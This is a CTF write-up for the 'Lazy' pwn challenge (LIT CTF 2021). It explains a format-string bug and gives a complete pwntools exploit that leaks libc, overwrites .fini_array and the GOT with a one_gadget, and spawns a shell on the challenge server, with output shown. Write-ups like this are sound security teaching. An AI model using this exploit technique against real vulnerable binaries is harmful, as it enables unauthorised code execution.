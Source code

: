 # Lexington Informatics Tournament CTF 2021

## pwn/Lazy

> Rythm 
> 
> Perhaps printf can do more than just read from the stack. I was too lazy to find out though. There’s not even a reference to the flag anyway. Do you think you GOT this?
> 
> `nc lazy.litctf.live 1337`
>
> [lazy_pwn.zip](lazy_pwn.zip)


Tags: _pwn_ _x86-64_ _fini-array_ _dtors_ _format-string_ _got-overwrite_ _one-gadget_

## Summary

Format-string overwrite of `.fini_array` to get a second pass to then overwrite the GOT with a gadget.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No RELRO? It is always _fini\_array_ (a.k.a. _dtors_)


### Decompile with Ghidra

```c
undefined8 main(void)
{
  ssize_t sVar1;
  undefined4 local_208 [128];
  
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Do you have any complaints about this lazily written problem?");
  sVar1 = read(0,local_208,0x79);
  local_208[(int)sVar1] = 0;
  puts("You said:");
  printf((char *)local_208);
  puts("Your criticism will be taken into consideration.");
  return 0;
}
```

`printf((char *)local_208)` is the vulnerability (no format-string).

Simple two-pass attack.  First, leak libc and overwrite `.fini_array` with `main` for a second pass, then overwrite `puts` with a _one\_gadget_.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./lazy')

if args.REMOTE:
    p = remote('lazy.lit-ctf-2021-2-codelab.kctf.cloud', 1337)
    libc = ELF('./libc-2.31.so')
    libc_start_main_offset = 234
    libc.symbols['gadget'] = [0xcbd1a,0xcbd1d,0xcbd20][1]
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    libc_start_main_offset = 243
    libc.symbols['gadget'] = [0xe6c7e,0xe6c81,0xe6c84][1]
```

Standard pwntools header with some gadgets (google for _one\_gadget_) defined (locally and remotely the 2nd gadget worked).


```python
offset = 6
libcleak_offset = 71
```

Discovered offsets using `%xx$p` and GDB locally.

> If new to format-string exploits read [dead-canary](https://github.com/datajerk/ctf-write-ups/tree/master/redpwnctf2020/dead-canary).

```python
payload  = b''
payload += b'%' + str(libcleak_offset).encode().rjust(2,b'0') + b'$018p'
payload += fmtstr_payload(offset+1,{binary.get_section_by_name('.fini_array').header.sh_addr:binary.sym.main},numbwritten=18)

log.info('len(payload): ' + str(len(payload)))
assert(len(payload) <= 0x79)
p.sendlineafter('problem?\n',payload)

p.recvline()
_ = p.recv(18)
libc.address = int(_,16) - libc.sym.__libc_start_main - libc_start_main_offset
log.info('libc.address: ' + hex(libc.address))
```

First pass, just leak and compute libc, then set `.fini_array` to `main` and on end we score a second pass.

```python
payload = fmtstr_payload(offset,{binary.got.puts:libc.sym.gadget})
log.info('len(payload): ' + str(len(payload)))
assert(len(payload) <= 0x79)
p.sendlineafter('problem?\n',payload)

null = payload.find(b'\x00')
p.recvuntil(payload[null-2:null])
p.interactive()
```

On second pass just replace `puts` in the GOT with our gadget; the `puts` after `printf` just before `return 0` will start a shell.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/litctf2021/lazy_pwn/lazy'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to lazy.lit-ctf-2021-2-codelab.kctf.cloud on port 1337: Done
[*] '/pwd/datajerk/litctf2021/lazy_pwn/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] len(payload): 72
[*] libc.address: 0x7f6b766aa000
[*] len(payload): 112
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ ls -l
total 2000
-rw-r--r-- 1 nobody nogroup      39 Jul  2 06:05 flag.txt
-rwxr-xr-x 1 nobody nogroup   17592 Jul 16 12:25 lazy
-rwxr-xr-x 1 nobody nogroup  177928 Jul  1 17:34 ld-2.31.so
-rwxr-xr-x 1 nobody nogroup 1839792 Jul  1 17:34 libc-2.31.so
$ cat flag.txt
flag{1t_41nt_much_but_1ts_h0n3st_w0rk}
```
